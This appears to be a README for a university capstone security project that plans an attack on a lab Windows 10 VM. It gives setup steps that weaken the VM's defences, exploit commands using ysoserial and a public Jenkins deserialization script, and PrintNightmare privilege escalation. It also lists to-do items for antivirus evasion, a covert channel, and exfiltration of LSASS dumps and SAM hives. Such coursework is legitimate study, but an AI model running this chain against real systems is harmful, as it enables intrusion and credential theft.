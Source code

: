 
# CS 564 Capstone Project
- Team Cryptid

# Info
- Target             : Windows 10
- Initial Compromise : Java Deserialization in Jenkins <= 1.638 (CVE-2015-8103)
- Priv Esc           : Printer Nightmare (CVE-2021-34527)
- Purpose            : Obtain local/domain credentials + other sensitive files

## Setup vulnerable windows VM
- Install Windows 10 VM
- Disable Windows firewall
- Set the following registry values at HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint:
    - RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    - NoWarningNoElevationOnInstall                 REG_DWORD    0x1
- Donwload and install JDK 11 from https://aka.ms/download-jdk/microsoft-jdk-11.0.22-windows-x64.msi
    - Make sure to enable the option to add JAVA_HOME to the PATH
    - You can run `java --version` in the Windows Command prompt to see if it installed properly
- Download vulnerable Jenkins version from https://get.jenkins.io/war/1.625/
- To run Jenkins, execute `java -jar /path/to/jenkins.war`
- Now Jenkins should be running on port 8080

## Running the Exploit
- Generate serialized java payload: https://github.com/frohoff/ysoserial
    - `wget https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar`
    - Example payload that executes the calcualtor app on the target:
    - `java -jar ysoserial-all.jar CommonsCollections7 calc.exe > payload`
- Python exploit script:
    - https://github.com/gquere/pwn_jenkins/blob/master/rce/jenkins_rce_cve-2015-8103_deser.py
- Run `python exploit.py [IP] [PORT] /path/to/payload`
    - Might need to run a few times to get the RCE to work
- Other Jenkins vulns here:
    - https://github.com/gquere/pwn_jenkins

## TODO
- Obfuscation
    - Virtual instruction based: https://github.com/JonathanSalwan/Tigress_protection/tree/master
    - Loader + decryptor / packing
    - Lots of ideas here: https://book.hacktricks.xyz/windows-hardening/av-bypass
- Remove / comment out debugging print statements
- Covert comm channel
- What data do we want to exfiltrate?
    - LSASS.exe dump
    - SAM / SECURITY hives
    
 
